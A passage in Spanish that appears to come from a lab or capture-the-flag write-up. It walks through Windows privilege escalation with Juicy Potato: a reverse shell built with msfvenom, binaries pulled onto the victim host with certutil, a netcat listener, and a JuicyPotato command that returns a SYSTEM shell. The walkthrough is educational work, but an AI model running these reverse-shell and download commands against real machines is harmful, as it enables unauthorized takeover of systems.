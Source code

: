 Una vez que lo tengas descargado, necesitaremos también el **binario nc.exe** para poder ejecutarlo con **Juicy Potato** y obtener una **Reverse Shell**, que si usas **Kali Linux** lo deberías tener:
```bash
locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

Aunque si no quieres usar el **binario nc.exe**, puedes crear tu propia **Reverse Shell** con **msfvenom**:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=Tu_IP LPORT=1337 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Ahora los pasamos a la máquina víctima, abriendo un servidor con **Python** y descargándolos en el directorio `/Temp` con la herramienta **certutil.exe**:
```batch
PS C:\Windows\Temp> certutil.exe -urlcache -split -f http://Tu_IP/nc.exe nc.exe
****  En l?nea  ****
  0000  ...
  e800
CertUtil: -URLCache comando completado correctamente.
PS C:\Windows\Temp> certutil.exe -urlcache -split -f http://Tu_IP/JuicyPotato.exe JuicyPotato.exe
****  En l?nea  ****
  000000  ...
  054e00
CertUtil: -URLCache comando completado correctamente.
```

Abre una **netcat** usando otro puerto:
```bash
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
```

Y ejecutamos el **Juicy Potato**, indicándole que nos mande una **CMD** a nuestra IP, agregándole un **CLSID** para la versión del SO que usa la máquina.

El **CLSID** lo puedes obtener aquí:
* <a href="https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise" target="_blank">Repositorio de ohpe: Windows_Server_2008_R2_Enterprise</a>

Ejecuta el **Juicy Potato**:
```batch
PS C:\Windows\Temp> ./JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Windows\Temp\nc.exe -e cmd Tu_IP 1337" -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM
```
